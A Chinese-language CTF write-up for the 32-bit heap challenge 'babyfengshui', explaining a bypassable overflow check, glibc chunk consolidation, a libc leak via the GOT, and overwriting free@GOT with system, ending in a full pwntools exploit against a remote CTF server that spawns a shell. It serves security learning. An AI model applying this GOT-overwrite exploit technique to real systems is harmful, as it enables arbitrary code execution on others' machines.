 ```yaml
---
title: babyfengshui
date: 2023-01-02 19:54:26
categories: 
- pwn_wp
tags: 
- pwn
- heap
---
```

这是一个32位的堆题，堆风水。
<!-- more -->

查壳
![check](C:\Users\95368\Documents\GitHub\pwn-study-diary\wp\babyfengshui\picture\check.png)


是一个菜单，里面的user结构大概如下：

```c
struct user
{
    char* description;//根据输入的size申请
    char name[124];
}
//在申请的0x80的chunk（user）中，第一个4byte是description的指针，后面存放的是name
```

在update函数中，有一个对堆溢出的检测

```c
// 防止description的chunk溢出到该userchunk的size，但是可以溢出到pre_size
// 而且可能只有一开始chunk比较整齐的时候有用，若经过申请和释放description和user的chunk不连续，则失效
if ( (char *)(length + *(_DWORD *)*(&ptr + index)) >= (char *)*(&ptr + index) - 4 )
{                                           
  puts("my l33t defenses cannot be fooled, cya!");
  exit(1);
}

```

if中条件的意思是：description中写的范围最多到该description的user的size位前。

由于在add user的函数中，先malloc的是description的chunk，因此可以防止update时溢出到user的size以及后面的数据。

但是，如果先申请的user被delete了，释放的user和description可能会在后续的过程中（甚至释放的时候）被合并，那么在后面申请新的user时，若合并后的部分不足以容纳新的description和user，则会造成description和其user并不连续，该防护就会不起作用，而我们要做的就是造成这种合并。

**consolidate的机制（合并）**

在malloc和free的时候都可能会出现合并的情况

**malloc的情况：**

malloc中的合并通常都是调用malloc_consolidate()函数对fast bins进行整理。当在small bins中查找时，若small bins尚未初始化，则合并fast bins中的chunk。当fast bins 和 small bins 中的chunk的大小都不能满足时，在large bins中查找，首先会调用malloc_consolidate()对进行fast bins chunk进行合并，可以合并的合并后放到unsorted bin，不能合并的直接放到unsorted bin中。如果top chunk也不能满足需求，会先调用malloc_consolidate()对fast bins chunk进行合并后再重新进行一次分配。

malloc_consolidate()有两个作用：1.若fast bins未初始化，则初始化malloc_state;2.否则，合并fast bins中的chunk。

**free的情况：**

如果**chunk的大小不在fast bin的范围内**，free会尝试进行合并。合并首先考虑与**物理低地址**的相邻空闲chunk，再考虑**物理高地址**的相邻空闲chunk（两个chunk都不能是top chunk）。如果下一个chunk是top chunk，则当前chunk会合并到top chunk，并修改top chunk的大小。

如果合并后的 chunk 大小大于 64KB，并且 fast bins 中存在空闲 chunk，调用 malloc_consolidate()函数合并 fast bins 中的空闲 chunk 到 unsorted bin 中。

对chunk进行合理的布局后，经过恰当的释放和申请，让新申请的description和user不连续，则可以在update函数实现堆溢出，在update函数中，从user的前4byte（description）指向的位置开始，可以写到该user的size字段前。


在知道了这些之后，首先要考虑怎样才能**泄露libc**。

在这道题目中，有display的功能，可以输出description的内容。其具体的过程是利用printf函数输出user的第一个4byte所指向的内容。这里原本存放的是description的指针，如果通过堆溢出将其**修改为got表项的地址**，则可以输出一个函数的真实地址，并由此得到libc。

得到libc之后，就可以考虑如何**get shell**。

在update中我们可以注意到，写入description是写入user的前4byte指向的位置。在一般情况下，这个指针指向的是description，但在我们泄露libc的过程中，我们其实是可以对其他user的description指针所在位置进行修改的。如果我们对这个指针修改后再执行update，对写入该指针指向的位置，利用这点，我们可以将某一函数的got表项覆盖为system函数。

在此时，free函数就是个不错的选择，在delete user的时候，对调用free对user前四位指向的chunk进行释放，如果我们将free修改为system函数，并将要free的user的description设置为"/bin/sh\x00"，则可以执行system("/bin/sh\x00")。

exp：

```python
from pwn import*
from LibcSearcher import*
elf=ELF("./babyfengshui")
#p=process("./babyfengshui")
p=remote('node4.buuoj.cn',28361)
context.log_level='debug'

def add_user(size,name,length,text):
  p.recvuntil('Action: ')
	p.sendline('0')
	p.recvuntil('size of description: ')
	p.sendline(str(size))
	p.recvuntil('name: ')
	p.sendline(str(name))
	p.recvuntil('text length: ')
	p.sendline(str(length))
	p.recvuntil('text: ')
	p.sendline(text)

def del_user(idx):
	p.recvuntil('Action: ')
	p.sendline('1')
	p.recvuntil('index: ')
	p.sendline(str(idx))

def display(idx):
	p.recvuntil('Action: ')
	p.sendline('2')
	p.recvuntil('index: ')
	p.sendline(str(idx))

def update(idx,length,text):
	p.recvuntil('Action: ')
	p.sendline('3')
	p.recvuntil('index: ')
	p.sendline(str(idx))
	p.recvuntil('text length: ')
	p.sendline(str(length))
	p.recvuntil('text: ')
	p.sendline(text)


add_user(0x80,'chunk0',0x80,'nothing')
add_user(0x80,'chunk1',0x80,'nothing')
add_user(0x8,'chunk2',0x8,'/bin/sh\x00')
del_user(0)

print ('this is got : ' + hex(elf.got['free']))

#gdb.attach(p)

add_user(0x108,'chunk0_0',0x19c,'a'*0x198+p32(elf.got['free']))

display(1)
p.recvuntil('description: ')
data=u32(p.recv(4))
print hex(data)

libc=LibcSearcher('free',data)
libcbase=data-libc.dump('free')
print libcbase

sys=libcbase+libc.dump('system')

update(1,4,p32(sys))
del_user(2)

p.interactive()
```

